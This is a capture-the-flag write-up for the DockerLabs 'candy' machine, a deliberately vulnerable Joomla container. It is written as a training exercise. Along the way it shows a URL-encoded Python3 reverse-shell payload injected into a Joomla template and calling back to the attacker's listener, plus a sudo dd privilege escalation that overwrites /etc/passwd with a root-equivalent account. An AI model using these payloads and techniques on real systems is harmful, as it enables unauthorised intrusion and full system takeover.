






# candy

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| candy | Luisillo_o | easy/facil | dockerlabs |

**Summary:** The candy machine was a Joomla exploitation challenge that chained a credential disclosure in a hidden robots.txt path, an admin panel template RCE, a backup file containing plaintext credentials, and a `sudo dd` privilege escalation to achieve root. The Nmap scan identified only port 80, with the HTTP generator header revealing Joomla and `robots.txt` listing a non-standard disallowed entry `/un_caramelo`. Fetching that path with curl returned an HTML page containing a commented-out credential block with base64-encoded data: `admin:c2FubHVpczEyMzQ1`, which decoded to `admin:sanluis12345`. These credentials authenticated successfully at the `/administrator/` Joomla admin panel. From the Joomla backend, a template PHP file was edited to inject a Python3 reverse shell payload, delivered via a curl request to the template path. A netcat listener received the connection and the TTY was stabilised. As `www-data`, a `find` search for files owned by `luisillo` and readable by the current user returned a single file `/var/backups/hidden/otro_caramelo.txt`. Reading it revealed a fake PHP snippet containing the plaintext password `luisillosuperpassword`. A `su - luisillo` succeeded. As `luisillo`, `.bash_history` showed prior use of `sudo dd` and a `sudo -l` confirmed passwordless access to `/bin/dd` as any user. The escalation used `dd` twice: first to copy `/etc/passwd` to `/tmp/passwd`, then — after appending a new root-equivalent entry `r00t` with a hash generated by `openssl passwd rooted!` to a writable copy — `sudo dd` was used to overwrite `/etc/passwd` with the modified file. `su - r00t` with the password `rooted!` completed the escalation.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/candy]
└─$ sudo bash auto_deploy.sh candy.tar       
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/candy]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-02 09:23 +0700
Nmap scan report for bypass403.pw (172.17.0.2)
Host is up (0.0000090s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-robots.txt: 17 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/
MAC Address: 0E:2E:14:03:4B:67 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.45 seconds
```

Only port 80 was open. The HTTP generator header identified Joomla, and the `robots.txt` listed a non-standard disallowed entry `/un_caramelo` among the standard Joomla paths.

---

## Initial Access

### Credential Discovery and Joomla Admin Login

**3. Gobuster Directory Enumeration**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/candy]
└─$ gobuster dir -u http://$ip -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              html,bak,js,png,php,zip,tar,env,css,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
media                (Status: 301) [Size: 308] [--> http://172.17.0.2/media/]
templates            (Status: 301) [Size: 312] [--> http://172.17.0.2/templates/]
index.php            (Status: 200) [Size: 7515]
modules              (Status: 301) [Size: 310] [--> http://172.17.0.2/modules/]
plugins              (Status: 301) [Size: 310] [--> http://172.17.0.2/plugins/]
includes             (Status: 301) [Size: 311] [--> http://172.17.0.2/includes/]
language             (Status: 301) [Size: 311] [--> http://172.17.0.2/language/]
README.txt           (Status: 200) [Size: 4942]
components           (Status: 301) [Size: 313] [--> http://172.17.0.2/components/]
api                  (Status: 301) [Size: 306] [--> http://172.17.0.2/api/]
cache                (Status: 301) [Size: 308] [--> http://172.17.0.2/cache/]
libraries            (Status: 403) [Size: 275]
robots.txt           (Status: 200) [Size: 812]
tmp                  (Status: 301) [Size: 306] [--> http://172.17.0.2/tmp/]
LICENSE.txt          (Status: 200) [Size: 18092]
layouts              (Status: 301) [Size: 310] [--> http://172.17.0.2/layouts/]
administrator        (Status: 301) [Size: 316] [--> http://172.17.0.2/administrator/]
configuration.php    (Status: 200) [Size: 0]
htaccess.txt         (Status: 200) [Size: 6456]
cli                  (Status: 301) [Size: 306] [--> http://172.17.0.2/cli/]
server-status        (Status: 403) [Size: 275]
Progress: 2426127 / 2426127 (100.00%)
===============================================================
Finished
===============================================================
```

**4. Fetching /un_caramelo and Decoding the Embedded Credential**

The `/un_caramelo` path listed in `robots.txt` was fetched with curl and returned an HTML construction page containing a commented-out credential block.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/candy]
└─$ curl -i http://172.17.0.2/un_caramelo
HTTP/1.1 200 OK
Date: Sun, 02 Aug 2026 02:30:20 GMT
Server: Apache/2.4.58 (Ubuntu)
Last-Modified: Mon, 26 Aug 2024 17:14:37 GMT
ETag: "64e-6209942703940"
Accept-Ranges: bytes
Content-Length: 1614

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Página en Construcción</title>
    <style>
        body {
            background-color: #f8f9fa;
            font-family: Arial, sans-serif;
            color: #343a40;
            display: flex;
            align-items: center;
            justify-content: center;
            height: 100vh;
            margin: 0;
        }

        .container {
            text-align: center;
        }

        h1 {
            font-size: 3rem;
            margin-bottom: 1rem;
            color: #dc3545;
        }

        p {
            font-size: 1.25rem;
            margin-bottom: 2rem;
        }

        .construction-icon {
            font-size: 6rem;
            color: #ffc107;
            margin-bottom: 1rem;
        }

        a {
            display: inline-block;
            margin-top: 1rem;
            padding: 0.75rem 1.5rem;
            font-size: 1rem;
            color: #fff;
            background-color: #007bff;
            text-decoration: none;
            border-radius: 0.25rem;
            transition: background-color 0.3s ease;
        }

        a:hover {
            background-color: #0056b3;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="construction-icon">🚧</div>
        <h1>Página en Construcción</h1>
        <!-- Creds
        admin:c2FubHVpczEyMzQ1
        -->
        <p>Estamos trabajando en algo increíble. ¡Vuelve pronto!</p>
        <a href="#">Volver al Inicio</a>
    </div>
</body>
</html>
```

The comment block contained `admin:c2FubHVpczEyMzQ1`. The base64 value was decoded immediately.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/candy]
└─$ echo 'c2FubHVpczEyMzQ1' | base64 -d
sanluis12345 
```

The credential pair was `admin:sanluis12345`.

### Joomla Admin Panel Template RCE

**5. Logging into the Joomla Administrator Panel**

The decoded credentials were used to log in at `/administrator/`.



**6. Navigating to the Template Editor**

From the Joomla admin panel, the template PHP editor was accessed to inject a reverse shell payload.











**7. Delivering the Reverse Shell**

A netcat listener was started on the attacker machine.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/candy]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

The URL-encoded Python3 socket reverse shell payload was injected into the template and executed via a curl request to the template path.

Payload: `python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22172.17.0.1%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22bash%22%29%27`


**8. Catching the Shell and Stabilising the TTY**

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 37418
www-data@e783fed2af63:/var/www/html/joomla$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<mla$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@e783fed2af63:/var/www/html/joomla$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/candy]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@e783fed2af63:/var/www/html/joomla$ export SHELL=/bin/bash
www-data@e783fed2af63:/var/www/html/joomla$ export TERM=xterm
www-data@e783fed2af63:/var/www/html/joomla$ stty rows 80 cols 130
www-data@e783fed2af63:/var/www/html/joomla$ 
```

A stable TTY shell was obtained as `www-data`.

---

## Lateral Movement

### Backup File Contains luisillo's Password

**9. User Enumeration and Searching for luisillo-Owned Files**

```bash
www-data@e783fed2af63:/var/www/html/joomla$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
luisillo:x:1001:1001:,,,:/home/luisillo:/bin/bash
www-data@e783fed2af63:/var/www/html/joomla$ ls -la /home
total 16
drwxr-xr-x 1 root     root     4096 Aug 26  2024 .
drwxr-xr-x 1 root     root     4096 Aug  2 02:21 ..
drwxr-x--- 1 luisillo luisillo 4096 Aug 26  2024 luisillo
drwxr-x--- 2 ubuntu   ubuntu   4096 Aug  1  2024 ubuntu
```

```bash
www-data@e783fed2af63:/var/www/html/joomla$ find / -type f -user luisillo -readable 2>/dev/null
/var/backups/hidden/otro_caramelo.txt
www-data@e783fed2af63:/var/www/html/joomla$ find / -type f -user luisillo -readable 2>/dev/null | xargs cat


                          _____             _             _           _                                           
                         |  __ \           | |           | |         | |                                          
  ______ ______ ______   | |  | | ___   ___| | _____ _ __| |     __ _| |__  ___     ______ ______ ______ ______   
 |______|______|______|  | |  | |/ _ \ / __| |/ / _ \ '__| |    / _` | '_ \/ __|   |______|______|______|______|  
                         | |__| | (_) | (__|   <  __/ |  | |___| (_| | |_) \__ \                                  
                         |_____/ \___/ \___|_|\_\___|_|  |______\__,_|_.__/|___/                                  


Aqui esta su caramelo Joven :)

<?php
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// Código de conexión a la base de datos
function connectToDatabase() {
    global $db_host, $db_user, $db_pass, $db_name;
    $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
    if ($conn->connect_error) {
        die("Conexión fallida: " . $conn->connect_error);
    }
    return $conn;
}

// Información adicional
echo "Bienvenido a Joomla en línea!";
?>
```

The backup file `/var/backups/hidden/otro_caramelo.txt` contained a fake PHP snippet with the plaintext password `luisillosuperpassword` for the `luisillo` database user.

**10. Switching to luisillo**

```bash
www-data@e783fed2af63:/var/www/html/joomla$ su - luisillo
Password: 
luisillo@e783fed2af63:~$ id;whoami;hostname
uid=1001(luisillo) gid=1001(luisillo) groups=1001(luisillo),100(users)
luisillo
e783fed2af63
luisillo@e783fed2af63:~$ ls -la
total 32
drwxr-x--- 1 luisillo luisillo 4096 Aug 26  2024 .
drwxr-xr-x 1 root     root     4096 Aug 26  2024 ..
-rw------- 1 luisillo luisillo  414 Aug 26  2024 .bash_history
-rw-r--r-- 1 luisillo luisillo  220 Aug 26  2024 .bash_logout
-rw-r--r-- 1 luisillo luisillo 3771 Aug 26  2024 .bashrc
drwxrwxr-x 3 luisillo luisillo 4096 Aug 26  2024 .local
-rw-rw-r-- 1 luisillo luisillo  371 Aug 26  2024 .otro_caramelo
-rw-r--r-- 1 luisillo luisillo  807 Aug 26  2024 .profile
```

---

## Privilege Escalation

### sudo dd to Overwrite /etc/passwd

**11. Reviewing .bash_history and Checking sudo Permissions**

```bash
luisillo@e783fed2af63:~$ cat .bash_history 
sudo -l
sudo /bin/dd
exit
cd /dev/shm/
ls
exit
cd /dev/shm/
nano creds.txtr
nano creds.txt
ls -l
exit
cd /dev/shm/
ls
ls -l
mkdir backup
cd backup
nano otro_caramelo.txt
exit
cd /var/
los
ls
cd backups/
ls
mkdir hidden
nano
chown luisillo /var/backups
exit
cd /var/
cd backups/
mkdir hidden
cd hidden
ls
nano otro_caramelo.txt
cat otro_caramelo.txt 
nano otro_caramelo.txt
cat otro_caramelo.txt 
exit
sudo -l
exit
```

```bash
luisillo@e783fed2af63:~$ sudo -l
Matching Defaults entries for luisillo on e783fed2af63:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User luisillo may run the following commands on e783fed2af63:
    (ALL) NOPASSWD: /bin/dd
```

`luisillo` could run `/bin/dd` as any user without a password. The `.bash_history` had already revealed `sudo /bin/dd` as a prior command, confirming the intended escalation vector. The strategy was to use `sudo dd` to copy `/etc/passwd` to a writable location, append a new root-equivalent entry, then use `sudo dd` again to write the modified file back to `/etc/passwd`.

**12. Copying /etc/passwd, Appending the Root Entry, and Overwriting**

```bash
luisillo@e783fed2af63:~$ sudo dd if=/etc/passwd of=/tmp/passwd
2+1 records in
2+1 records out
1313 bytes (1.3 kB, 1.3 KiB) copied, 9.08e-05 s, 14.5 MB/s
luisillo@e783fed2af63:~$ openssl passwd rooted!
$1$yLSGRoPF$UbquMeuC5/qgtHAnlgMP7.
luisillo@e783fed2af63:~$ echo 'r00t:$1$yLSGRoPF$UbquMeuC5/qgtHAnlgMP7.:0:0:root:/root:/bin/bash' >> /tmp/passwd
-bash: /tmp/passwd: Permission denied
luisillo@e783fed2af63:~$ cp /tmp/passwd  /tmp/passwd_new
luisillo@e783fed2af63:~$ ls -la /tmp
total 16
drwxrwxrwt 1 root     root     4096 Aug  2 02:55 .
drwxr-xr-x 1 root     root     4096 Aug  2 02:21 ..
-rw-r--r-- 1 root     root     1313 Aug  2 02:53 passwd
-rw-r--r-- 1 luisillo luisillo 1313 Aug  2 02:55 passwd_new
luisillo@e783fed2af63:~$ echo 'r00t:$1$yLSGRoPF$UbquMeuC5/qgtHAnlgMP7.:0:0:root:/root:/bin/bash' >> /tmp/passwd_new
luisillo@e783fed2af63:~$ cat /tmp/passwd_new 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
_galera:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:102:MariaDB Server,,,:/nonexistent:/bin/false
messagebus:x:102:103::/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
luisillo:x:1001:1001:,,,:/home/luisillo:/bin/bash
r00t:$1$yLSGRoPF$UbquMeuC5/qgtHAnlgMP7.:0:0:root:/root:/bin/bash
```

The `/tmp/passwd` copy written by `sudo dd` was owned by root and not writable. It was copied to `/tmp/passwd_new` which was owned by `luisillo`, the new root entry was appended, and the full contents were verified. Then `sudo dd` was used again to write it back to `/etc/passwd`.

```bash
luisillo@e783fed2af63:~$ sudo dd if=/tmp/passwd_new of=/etc/passwd
2+1 records in
2+1 records out
1378 bytes (1.4 kB, 1.3 KiB) copied, 0.0001368 s, 10.1 MB/s
```

**13. Escalating to Root**

```bash
luisillo@e783fed2af63:~$ su - r00t
Password: 
root@e783fed2af63:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
e783fed2af63
```

Full root access was achieved.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified only port 80. The HTTP generator header disclosed Joomla. The `robots.txt` listed a non-standard disallowed entry `/un_caramelo` among the standard Joomla paths.
2. **Credential Discovery**: Fetching `/un_caramelo` with curl returned an HTML construction page containing a commented-out credential block: `admin:c2FubHVpczEyMzQ1`. Decoding the base64 value yielded `admin:sanluis12345`.
3. **Exploitation**: The credentials authenticated successfully at `/administrator/`. From the Joomla backend, a template PHP file was edited to inject a URL-encoded Python3 reverse shell payload. Executing the template path delivered the shell to a netcat listener. The TTY was stabilised via `pty`.
4. **Lateral Movement**: A `find` search for files owned by `luisillo` and readable by `www-data` returned `/var/backups/hidden/otro_caramelo.txt`. Its contents included a PHP snippet with the plaintext password `luisillosuperpassword`. A `su - luisillo` succeeded.
5. **Privilege Escalation**: As `luisillo`, `.bash_history` revealed prior use of `sudo dd` and `sudo -l` confirmed passwordless access to `/bin/dd` as any user. `sudo dd` copied `/etc/passwd` to `/tmp/passwd`, which was then copied to `/tmp/passwd_new` (owned by `luisillo`). `openssl passwd rooted!` generated a hash and a new `r00t` entry with UID 0 was appended. `sudo dd` wrote the modified file back to `/etc/passwd`. `su - r00t` with the password `rooted!` produced a clean root shell.
